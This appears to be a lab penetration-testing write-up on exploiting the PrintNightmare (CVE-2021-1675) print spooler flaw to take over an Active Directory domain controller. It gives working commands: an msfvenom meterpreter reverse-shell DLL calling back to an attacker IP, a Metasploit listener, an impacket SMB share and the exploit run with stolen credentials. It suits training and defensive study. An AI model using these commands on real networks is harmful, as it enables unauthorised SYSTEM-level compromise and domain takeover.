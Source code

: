# Active Directory - Print Nightmare

### Post Compromise Attacks

By: **CyberSec**

**RCE Exploit:** [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

In this documentation, we explore print nightmare. Printnightmare is a vulnerability which affects the Microsoft Windows Print Spooler Service. It has the potential to enable attackers to gain complete control of an affected system. If the Print Spooler service is running on a Domain Controller, an attacker could insert malicious DLLs into a remote Windows host, whereby a regular domain user can execute code as SYSTEM on the Domain Controller.

We will walk through the steps of exploiting this vulnerability using a domain joined machine, a domain controller and an attacking machine as illustrated below.

### Domain Setup:

In this example, we have a domain controller (DC01) running the print spooler service and a Client Computer (Client1) in the CSL.local domain.

**Client1:** `192.168.0.31`

**DC01:** `192.168.0.21`

**ATTACKER:** `192.168.0.23`

### **Scenario:**

We have managed to compromise a user account (`fcastle` with password: `Passwor01`) within a windows domain (CSL.local).  The user has low level privileges.  However, further enumeration in this particular assessment confirms that the domain controller is running the print spooler service. A a penetration tester, we can take advantage of this vulnerability to gain super privileges on the domain controller and pwned the entire domain. 

From there, we would be able to demonstrate how an attacker can maintain domain persistence using other attacks such as *(Golden Ticket, Silver Ticker, Skeleton Key, DSRM, Custom SSP, AdminSDHolder,DCSync,DCShadow, etc.).* 

The focus of this write up is to first demonstrate domain compromise through print nightmare. 

Below is an illustrated example that supplements the described scenario.

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled.png)

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%201.png)

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%202.png)

The methodology used to successfully pull of this attack are as follows:

1. Enumerate the domain controller for the vulnerable service
2. Download the RCE exploit from Github
3. Create a Malicious DLL
4. Start a Listener (Multi-Handler) to listen for reverse connection 
5. Host a temporary fileshare on the attackers machine (with exploit and DLL)
6. Execute the exploit and call the DLL

### Enumerate the domain controller for the vulnerable service

On our attacking machine, we will run the [rpcdump.py](http://rpcdump.py) tool to help enumerate the existence of the service running on the domain controller with the below command:

```bash
rpcdump.py @192.168.0.21 | egrep 'MS-RPRN|MS-PAR'
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%203.png)

The above confirms that the target is vulnerable to the attack.

### Download the RCE exploit from Github

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%204.png)

### Create a Malicious DLL

Inside of the exploit folder we will create a malicious DLL with msfvenom. See below for commands.

**Command:** 

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.23 LPORT=53 -f dll > printshell.dll
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%205.png)

### Start a Listener (Multi-Handler) to listen for reverse connection

```bash
use /exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.23
set lport 53
run
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%206.png)

### Host a temporary fileshare on the attackers machine

(with exploit and DLL)

Using the impacket-smbserver tool on Kali Linux, we will setup a temporary fileshare.

```bash
impacket-smbserver fileshare ./
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%207.png)

We can test to see if the file share is accessible from client 1.

**Command:** 

```bash
dir \\192.168.0.23\fileshare\
```

If the following error is shown, it means that smb2 is enabled.

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%208.png)

To get around this issue with impacket-smbserver - we will update our command to support smb2.

**Command:**

```bash
impacket-smbserver fileshare ./ -smb2support
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%209.png)

Again, we can confirm access to the share from the windows client by re-issuing the commands from the windows client.

```bash
dir \\192.168.0.23\fileshare\
```

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%2010.png)

We can see that we can now access the fileshare hosted from out attckers machine.

### Execute the exploit and call the malicious DLL

**Syntax:**

Command: 

```bash
python3  CVE-2021-1675.py <domain name>/<username>:<Password>@192.168.0.21 ‘\\<IP of Kali Share>\printshell.dll’
```

```bash
python3  CVE-2021-1675.py csl/fcastle:Password01@192.168.0.21 '\\192.168.0.23\fileshare\printshell.dll'
```

Command explanation: 

[`CVE-2021-1675.py](http://CVE-2021-1675.py) is the exploit`

`csl/fcastle:Password01 is the user credentials`

`@192.168.0.21 is the domain controller’s IP address`

`\\192.168.0.23\fileshare\printshell.dll is the fileshare hosting our malicious DLL`

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%2011.png)

In our metasploit console, we were able to get a meterpreter shell onto the Domain Controller as super user - `nt authority\system`

![Untitled](./ActiveDirectory/printnightmare/Active%20Directory%20-%20Print%20Nightmare%20084f7383b7df40aaad8334c442f0d105/Untitled%2012.png)

### Explanation

After executing our exploit (as shown in 1), the exploit authenticated to the domain controller with the credentials provided in our command and the domain controller connects to the fileshare hosted on the Kali Linux machine (as shown in 2) and triggered our malicious DLL. A remote session is created back to our reverse handler metasploit multi-handler, granting us a meterpreter session on the domain controller as super admin.